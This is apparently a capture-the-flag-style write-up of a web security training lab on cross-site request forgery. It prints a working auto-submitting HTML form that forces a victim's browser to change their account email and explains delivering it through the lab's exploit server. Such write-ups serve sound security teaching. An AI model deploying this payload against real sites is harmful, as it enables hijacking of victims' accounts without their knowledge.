


# **CSRF vulnerability with no defenses**

This site accepts everything as the title says, so it is easy to take advantage.

We can serve the user with an HTML + JS that posts to the change email endpoint, an example of the post endpoint captured:



If we serve the victim something like this:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

It should post to the endpoint with the param we are forcing.

In the lab, we have to use the interface were they mock delivering to the victim:



And when you click deliver it should solve the lab
